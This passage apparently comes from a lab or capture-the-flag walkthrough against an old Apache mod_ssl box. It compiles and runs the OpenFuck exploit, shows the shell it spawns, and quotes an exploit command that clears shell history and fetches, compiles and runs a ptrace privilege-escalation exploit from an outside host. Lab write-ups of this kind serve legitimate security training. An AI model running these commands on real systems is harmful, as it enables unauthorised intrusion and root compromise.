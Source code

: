 A quick Google search shows that installing `libssl-dev` resolves this and the exploit can be compiled afterwards (the `lcrypto` option is suggested in the source code of the exploit). The extra options for running the exploit (`a.out`) can be found by running it without any options whatsoever - this shows the usage instructions:

`0.6xb` as the 'target' option (matching the Apache version on the target's machine)
`192.168.56.107` as the ‘box' option (matching the target's machine’s IP address)
`443` as the ‘port' option
`40` as the ‘open connection amount’ option (the instructions suggest 40-50)


```bash
kali@kali:~$ sudo apt-get install libssl-dev
kali@kali:~$ gcc 47080.c -lcrypto
kali@kali:~$


kali@kali:~$ ./a.out 0x6b 192.168.56.107 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo
--19:10:40--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443...
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$
```

This results in a shell, but with lower privileges than intended. Because this particular exploit is supposed to result in a shell with root privileges, something went wrong. As can be seen in the error message shown above after running the exploit, the following commands failed:

`#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"`
